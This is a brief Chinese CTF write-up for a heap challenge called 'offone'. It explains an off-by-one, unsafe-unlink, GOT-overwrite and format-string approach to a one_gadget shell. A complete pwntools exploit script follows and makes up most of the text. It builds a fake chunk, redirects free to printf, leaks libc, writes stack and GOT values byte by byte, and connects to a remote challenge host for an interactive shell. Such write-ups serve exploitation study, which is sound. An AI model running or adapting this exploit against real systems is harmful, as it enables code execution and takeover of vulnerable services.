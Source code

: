 这题其实就是一个off by one，关键就是在利用那里比较麻烦

因为在edit那里，是用strlen来判断长度的，所以可以修改下一个堆的size

这样常规的就是直接unsafe unlink，然后就可以任意写了

但是这里不同，因为edit那里最后一位必须为\x00，很多地方就写不了

想了半天，还是用老套路，将free的got表中的值修改为printf,然后利用格式化字符串漏洞就可以实现任意读写了

这里就准备将exit在got表中的值修改为one_gadget，但是发现，在本地能利用的那个gadget居然在服务器上失败了......

别的gadget条件又不满足，最后强行用格式化字符串漏洞将栈上的某个地方清0，然后满足了另外一个gadget的条件

（其实上面能利用的原因是因为这题的libc和once的libc是一样的

下面是具体的payload


```
from pwn import *

debug=0
context.log_level='debug'
e=ELF('./libc.so')

if debug:
    p=process('offone',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('47.75.154.113', 9999)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.sendline(x)


def new(idx,content):
    se('1')
    ru('Which? :')
    se(str(idx))
    ru('msg:')
    se(content)
    ru('Which? :')

def edit(idx,content):
    se('2')
    ru('Which? :')
    se(str(idx))
    ru('new msg:')
    p.send(content)
    ru('Which? :')

def wipe(idx):
    se('3')
    ru('Which? :')
    se(str(idx))
    return ru('Which? :')


def write_b(idx,c):
    new(10,'a'*0x60)
    edit(10,'%'+str(st+idx)+'c%6$hhn\n')
    wipe(10)
    new(10,'a'*0x60)
    if c!=0:
        edit(10,'%'+str(c)+'c%8$hhn\n')
    else:
        edit(10,'%8$hhn\n')
    wipe(10)

def write_one(addr,value,length=3):
    for i in range(length):
        write_b(length-1-i,ord(p64(addr)[length-1-i]))
    new(10,'a'*0x60)
    if value!=0:
        edit(10,'%'+str(value)+'c%12$hhn\n')
    else:
        edit(10,'%12$hhn\n')
    wipe(10)

def write(addr,value,length=3):
    tmp=p64(value)
    for i in range(6):
        write_one(addr+i,ord(tmp[i]),length)


new(0,'a'*0x60)
new(1,'b'*0x60)
new(2,'c'*0x60)

new(3,'a'*0x300)
wipe(3)

new(3,'\xff'*0x120)
new(4,'a'*0x190)
edit(4,p64(0x21)*0x24+'\n')

fake_chunk=p64(0)+p64(0xe1)+p64(0x602198-0x18)+p64(0x602198-0x10)
fake_chunk=fake_chunk.ljust(0xe0,'a')
fake_chunk+=p64(0xe0)

edit(3,fake_chunk+'\n')
wipe(4)

edit(3,p32(0x602018)[:3]+'\n')
edit(0,p64(0x4007a0)[:6])

edit(3,'\x00'*3)
wipe(0)
new(0,'a'*0x20)
edit(3,p32(0x602020)[:3]+'\n')

puts=u64(wipe(0)[:6]+'\x00\x00')

edit(3,'\x00'*3)
wipe(0)

base=puts-e.symbols['puts']

one_gadget=base+0x4526a

new(10,'a'*0x200)
edit(10,'%8$lx\n')

stack=int(wipe(10)[:12],16)
st=ord(p64(stack)[0])

write(0x602070,one_gadget,3)

for i in range(6):
    write_b(5-i,ord(p64(stack+0x18)[5-i]))    
new(10,'a'*0x60)
edit(10,'%12$n\n')
wipe(10)

for i in range(6):
    write_b(5-i,ord(p64(stack+0x18+4)[5-i]))
new(10,'a'*0x60)
edit(10,'%12$n\n')
wipe(10)

new(10,'a'*0x200)
edit(10,'%lx-'*0x20+'\n')
wipe(10)




print(hex(stack))

p.interactive()



```